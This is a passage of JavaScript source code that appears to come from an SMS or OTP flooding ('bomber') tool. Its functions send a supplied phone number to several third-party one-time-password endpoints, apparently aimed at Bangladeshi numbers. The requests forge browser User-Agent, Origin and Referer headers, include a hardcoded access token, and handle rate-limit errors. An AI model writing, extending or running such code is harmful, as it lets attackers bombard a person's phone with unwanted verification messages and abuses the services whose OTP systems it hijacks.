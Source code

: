         const result = await response.json();

      
        if (result.otpsent === 'false' || result.status === 'failed') {
            throw new Error(`API 1 Failure: ${result.error || 'Unknown error'}`);
        }

        return result;
    } catch (error) {
        console.error('API 1 Error:', error);
        throw error;
    }
}

async function api_2(phone) {
    const url = `https://chinaonlineapi.com/api/v1/get/otp?phone=${phone}`;

    try {
        const response = await fetch(url, {
            method: 'GET',
            headers: {
                'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/109.0',
                'token': 'gwkne73882b40gwgkef5150e91759f7a1282303230000000001utnhjglowjhmfl2585gfkiugmwp56092219',
                'Origin': 'https://chinaonlinebd.com',
                'Referer': 'https://chinaonlinebd.com/'
            }
        });

        const result = await response.json();

       
        if (result.status === 'Failed' || result.msg.includes('OTP limit exceeded')) {
            throw new Error(`API 2 Failure: ${result.msg || 'Unknown error'}`);
        }

        return result;
    } catch (error) {
        console.error('API 2 Error:', error);
        throw error;
    }
}

async function api_3(phone) {
    const url = "https://prod-api.viewlift.com/identity/otp/resend?site=prothomalo";

    try {
        const response = await fetch(url, {
            method: 'POST',
            headers: {
                'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/108.0',
                'Content-Type': 'application/json',
            },
            body: JSON.stringify({ "phoneNumber": "+88" + phone })
        });

        const result = await response.json();
